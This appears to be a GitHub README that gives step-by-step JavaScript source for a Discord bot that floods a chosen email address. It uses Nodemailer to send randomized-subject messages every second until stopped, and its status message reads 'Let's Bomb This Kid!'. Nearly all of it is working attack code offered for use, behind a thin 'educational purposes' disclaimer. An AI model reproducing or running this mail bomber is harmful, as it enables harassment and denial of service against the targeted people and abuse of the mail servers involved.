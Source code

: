 # Discord Bot E-mail Bomber
## Warning!
This bot is against Discord ToS and can get you banned for using it!  
I'm not responsible for anything that is done/happens with this source code.  
This code is strictly for educational purposes.  
By copying or using any of the code below you agree that you have read this.  
*Use this at your own risk*  
*Please do not edit the credits!*
*Bot  Created by Mental#1424 and Exploit#1337*  
[Email Bombing Video](https://www.youtube.com/watch?v=kquNr_DV_Rc)  
[Email Bombing V2 Video](https://youtu.be/8hPAveapX8w)
for any issue, join [this discord server](discord.gg/qzKB7EU)

## CHANGELOG
Version 2 - Edited the spamming delay time, now you can choose the mail text, free libero.it account for spamming given. Check indexV2.js  
\
Version 1 - Bot Created  

## Description
With this bot, you can bomb any email address by running a simple command.  
The E-mail subject and body will be randomized in all new mails, so there is not any chance that a new mail is a reply to the first.    
All this complex system is activated by the simple command ```!send mail@mail.com```   

## Installing
First, we need to install [Nodemailer](https://nodemailer.com/about/) using npm  
```bash
npm install nodemailer --save
```
## Starting
Now we need to declare nodemailer at the bottom of our code and a boolean called "spamming" that will be used later in the code  
```javascript
const Discord = require('discord.js');
const client = new Discord.Client();
const prefix = "!"
const nodemailer = require("nodemailer");
var spamming;
```

## Client On Message
It's time to start coding, you can find the whole code in index.js or follow this guide to create your own.  
In this bit of code we declare args and some other stuff that is required on the message event.   
```javascript
client.on('message', async msg => {
    var args = msg.content.split(' ').slice(1);
    var command = msg.content.toLowerCase().slice(prefix.length).split(' ')[0];
    if(msg.author.bot) return;
 ```
## Send Command
We need to create our send command and make a function to randomize the emails to avoid duplicates.  
Duplicates are bad because it will stack in the inbox and not be effective.  

```javascript    
if (command === 'send') {
  if (spamming == true) return msg.reply("A mail bombing is already active! Please use '!stop' before a new attack"); //Check if the spamming variable is true

    if (!args[0]) 
        return  msg.reply("You need to insert a mail target!"); //If email is not specified, you get this reply message.

        
        function randomLetters(length) { //Here you create your random letters and number function.
          var text = "";
          var possible = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
          for (var i = 0; i < length; i++)
            text += possible.charAt(Math.floor(Math.random() * possible.length));
             return text;
          }

       
          
        var mailto = args[0] //the variable mailto will be the arg[0] (the target e-mail)
        var mailtxt = (randomLetters(10)) //The mail's text will be 10 random letters and numbers choosed by the var "possible"
 ```
        
##  SMTP Server Connection
Now let's create the connection with the smtp server  
WARNING: If you are using gmail under user and pass you put the email and password. YOU MUST HAVE LESS SECURE APPS ON TO USE GMAIL!
```javascript
        let transporter = nodemailer.createTransport({
            host: "server", //smtp server
            port: 25,
            secure: false, // true for 465, false for other ports
            auth: {
              user: 'mail', 
              pass: 'password' 
            }
          });
```
##  E-Mail Config
And now we make the config for the emails
```javascript
let mailOptions = {
            from: '"Name" <e-mail>', // sender address
            to: mailto, // list of receivers, in this case, the "mailto" variable
            subject: (randomLetters(8)), // Subject is made by 8 random characters
            text: mailtxt, // text body, made from mailtxt variable
            html: "<b>" + mailtxt + "</b>" // html body
          };
```
##  Spamming Process
Here is where we make our spam functions and setInterval to make it keep spamming.  

```javascript
async function sendMail() {
          let info = await transporter.sendMail(mailOptions) //You load the mail options
          spamming = true; //You set the variable "spamming" to true, when it's on true, you can't launch other attacks
          }
          

            const spammingMessage = setInterval(() => { //You make a loop of the command, so it spams over and over
              var mailto = args[0]
                  mailOptions.subject = (randomLetters(8)) //You change the mail object, so it's everytime a new email and not a reply to the first one
                  var mailtxt = (randomLetters(10))
          
                      sendMail();
                      
                  }, 1000);

        msg.channel.send({embed: { //You create an embed with all the informations
            color: 3447003,
            author: {
              name: client.user.username,
              icon_url: client.user.avatarURL
            },
            title: "Bombing",
            description: "Bot Developed By Mental#1424",
            fields: [{
                name: "Let's Bomb This Kid!",
                value: "Bombing In Progress..."
              },
            {
                name: "Target Mail",
                value: mailto,
              },

            ],
            timestamp: new Date(),
            footer: {
              icon_url: client.user.avatarURL,
              text: "© Discord Mail Bomber"
            }
            
            
          }
          
        });
      }
```
##  Stopping The bombing
The stop command:
```javascript 
if(command === "stop") { //Stop the mail bombing
        if (spamming == false) return msg.reply("There isn't any active bombing!") //if you are not spamming, you can't stop the mail bombing.
        msg.channel.send("Stopped! Bot Shutdown")
        client.destroy() //The bot shut down
    }
```
##  Credits and info
All the information about the bot and the developers.
```javascript
    if(command === "info") { //Please do not edit this
      msg.channel.send({embed: {
          color: 3447003,
          author: {
            name: client.user.username,
            icon_url: client.user.avatarURL
          },
          title: "Info",
          description: 'Bot developed by Mental#1424'+'\n'+'Special Thanks To: ' + 'Exploit#1337',
          fields: [{
              name: "Find Me On Github!",
              value: "[Click This](https://github.com/MyNameIsMental)"
            },
           {
              name: "The bot is open source on github!",
              value: "[Click This](https://github.com/MyNameIsMental/discord-email-bombing)"
            },

          {
              name: "Command Sytax",
              value: "!send targetmail@targetmail.com text"
            },

            {
              name: "Stop",
              value: "Use !stop for stopping the mail bombing"
            }
          ],
          timestamp: new Date(),
          footer: {
            icon_url: client.user.avatarURL,
            text: "© Discord Mail Bomber"
          }
        }
      })
        };

    }) 
    ```
